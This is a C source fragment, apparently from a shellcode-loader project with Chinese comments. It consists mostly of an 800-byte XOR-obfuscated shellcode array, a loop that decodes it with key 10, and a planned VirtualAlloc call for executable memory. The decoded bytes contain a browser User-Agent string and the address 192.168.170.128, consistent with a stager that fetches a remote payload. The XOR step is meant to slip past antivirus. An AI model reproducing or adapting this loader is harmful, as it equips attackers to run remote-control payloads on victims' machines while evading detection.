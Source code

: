         int shellcode_size = 0; // shellcode长度
        DWORD dwThreadId; // 线程ID
        HANDLE hThread; // 线程句柄
        DWORD dwOldProtect; // 内存页属性
    /* length: 800 bytes */
    
    unsigned char buf[] = "\xf6\xe2\x83\x0a\x0a\x0a\x6a\x83\xef\x3b\xd8\x6e\x81\x58\x3a\x81\x58\x06\x81\x58\x1e\x81\x78\x22\x05\xbd\x40\x2c\x3b\xf5\x3b\xca\xa6\x36\x6b\x76\x08\x26\x2a\xcb\xc5\x07\x0b\xcd\xe8\xfa\x58\x5d\x81\x58\x1a\x81\x48\x36\x0b\xda\x81\x4a\x72\x8f\xca\x7e\x40\x0b\xda\x5a\x81\x42\x12\x81\x52\x2a\x0b\xd9\xe9\x36\x43\x81\x3e\x81\x0b\xdc\x3b\xf5\x3b\xca\xa6\xcb\xc5\x07\x0b\xcd\x32\xea\x7f\xfe\x09\x77\xf2\x31\x77\x2e\x7f\xe8\x52\x81\x52\x2e\x0b\xd9\x6c\x81\x06\x41\x81\x52\x16\x0b\xd9\x81\x0e\x81\x0b\xda\x83\x4e\x2e\x2e\x51\x51\x6b\x53\x50\x5b\xf5\xea\x52\x55\x50\x81\x18\xe1\x8c\x57\x62\x64\x6f\x7e\x0a\x62\x7d\x63\x64\x63\x5e\x62\x46\x7d\x2c\x0d\xf5\xdf\x3b\xf5\x5d\x5d\x5d\x5d\x5d\x62\x30\x5c\x73\xad\xf5\xdf\xe3\x8e\x0a\x0a\x0a\x51\x3b\xc3\x5b\x5b\x60\x09\x5b\x5b\x62\x9a\x15\x0a\x0a\x59\x5a\x62\x5d\x83\x95\xcc\xf5\xdf\xe1\x7a\x51\x3b\xd8\x58\x62\x0a\x08\x6a\x8e\x58\x58\x58\x59\x58\x5a\x62\xe1\x5f\x24\x31\xf5\xdf\x83\xcc\x89\xc9\x5a\x3b\xf5\x5d\x5d\x60\xf5\x59\x5c\x62\x27\x0c\x12\x71\xf5\xdf\x8f\xca\x05\x8e\xc9\x0b\x0a\x0a\x3b\xf5\x8f\xfc\x7e\x0e\x83\xf3\xe1\x03\x62\xa0\xcf\xe8\x57\xf5\xdf\x83\xcb\x62\x4f\x2b\x54\x3b\xf5\xdf\x3b\xf5\x5d\x60\x0d\x5b\x5c\x5a\x62\xbd\x5d\xea\x01\xf5\xdf\xb5\x0a\x25\x0a\x0a\x33\xcd\x7e\xbd\x3b\xf5\xe3\x9b\x0b\x0a\x0a\xe3\xc3\x0b\x0a\x0a\xe2\x81\xf5\xf5\xf5\x25\x39\x7f\x65\x4f\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x0a\x5f\x79\x6f\x78\x27\x4b\x6d\x6f\x64\x7e\x30\x2a\x47\x65\x70\x63\x66\x66\x6b\x25\x3f\x24\x3a\x2a\x22\x69\x65\x67\x7a\x6b\x7e\x63\x68\x66\x6f\x31\x2a\x47\x59\x43\x4f\x2a\x33\x24\x3a\x31\x2a\x5d\x63\x64\x6e\x65\x7d\x79\x2a\x44\x5e\x2a\x3c\x24\x3b\x31\x2a\x5e\x78\x63\x6e\x6f\x64\x7e\x25\x3f\x24\x3a\x31\x2a\x48\x45\x43\x4f\x33\x31\x44\x46\x44\x46\x23\x07\x00\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x0a\x62\xfa\xbf\xa8\x5c\xf5\xdf\x60\x4a\x62\x0a\x1a\x0a\x0a\x62\x0a\x0a\x4a\x0a\x5d\x62\x52\xae\x59\xef\xf5\xdf\x99\xb3\x0a\x0a\x0a\x0a\x0b\xd3\x5b\x59\x83\xed\x5d\x62\x0a\x2a\x0a\x0a\x59\x5c\x62\x18\x9c\x83\xe8\xf5\xdf\x8f\xca\x7e\xcc\x81\x0d\x0b\xc9\x8f\xca\x7f\xef\x52\xc9\xe2\xa3\xf7\xf5\xf5\x3b\x33\x38\x24\x3b\x3c\x32\x24\x3b\x3d\x3a\x24\x3b\x38\x32\x0a\x0a\x0a\x0a\x0a";
    
    
    // 获取shellcode大小
    shellcode_size = sizeof(buf);
    
    /* 增加异或代码 */
    for(int i = 0;i<shellcode_size; i++){
        buf[i] ^= 10;
    }
    /*
    VirtualAlloc(
        NULL, // 基址
        800,  // 大小
        MEM_COMMIT, // 内存页状态
        PAGE_EXECUTE_READWRITE // 可读可写可执行
        );
    */
    